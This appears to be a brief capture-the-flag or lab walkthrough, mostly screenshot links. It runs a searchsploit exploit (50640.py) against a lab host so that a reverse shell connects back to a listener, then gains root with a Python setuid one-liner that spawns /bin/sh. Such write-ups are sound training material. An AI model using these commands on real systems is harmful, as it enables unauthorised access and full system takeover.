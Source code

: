 ![](../attachment/d39c406751b99466bb421e376fd1d405.png)

We found an exploit:
![](../attachment/e85f817f1ab56d279a2d8b56c1f1a1a6.png)

```
searchsploit -m python/remote/50640.py
python3 50640.py -t 192.168.241.24 -p 8000 -L 192.168.45.166 -P 8000
```
![](../attachment/24daccefe504ae592f4c96ac21283a48.png)
We started a listener with penelope(alias).
![](../attachment/d1aa47ffa444c12216c15ace6aad791f.png)
Got a shell as app user.

Running linpeas:
![](../attachment/545e529315b514f899170ad1a07b2a49.png)

To get root:
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![](../attachment/29bf7a8db757478559096950f0545c42.png)


